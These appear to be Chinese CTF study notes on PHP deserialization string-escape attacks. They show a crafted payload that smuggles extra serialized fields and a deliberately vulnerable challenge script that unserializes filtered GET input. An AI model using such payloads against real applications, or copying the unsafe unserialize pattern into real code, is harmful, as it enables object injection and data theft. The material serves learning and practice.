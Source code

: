 分析：

```php
<?php
class test{
    var $user='flag';
    var $pass='benben';
    var $vip = true ;   
}
echo serialize(new test());
```

```php
O:4:"test":3:{s:4:"user";s:4:"flag";s:4:"pass";s:6:"benben";s:3:"vip";b:1;}
```

```
flag被替换成hk,字符串会减少，会吃掉后面的结构代码，吃完 ";s:4:"pass";s:xx:" 后，$pass的值benben可控，字符串逃逸
19个字符
10个flag->40->20+19+1=40
多吃1位在后面补
```

```
新问题：
成员属性少一个
于是
最终逃逸代码为：
1";s:4:"pass";s:6:"benben";s:3:"vip";b:1;}
```



#### 2.字符增多

1. 字符减少逃逸：多逃逸出一个成员属性
   1. 第一个字符串减少，吃掉有效代码，在第二个字符串构造代码
   
2. 字符增多逃逸：构造出一个逃逸成员属性
   1. 第一个字符串增多，吐出多余代码，把多余位代码构造成逃逸的成员属性
   
   变少判断吃掉的内容，并计算长度
   
   ```php
   <?php
   highlight_file(__FILE__);
   error_reporting(0);
   function filter($name){
       $safe=array("flag","php");
       $name=str_replace($safe,"hack",$name);
       return $name;
   }
   class test{
       var $user;
       var $pass='daydream';
       function __construct($user){
           $this->user=$user;
       }
   }
   $param=$_GET['param'];
   $param=serialize(new test($param));
   $profile=unserialize(filter($param));
   
   if ($profile->pass=='escaping'){
       echo file_get_contents("flag.php");
   }
   ?>
   ```
   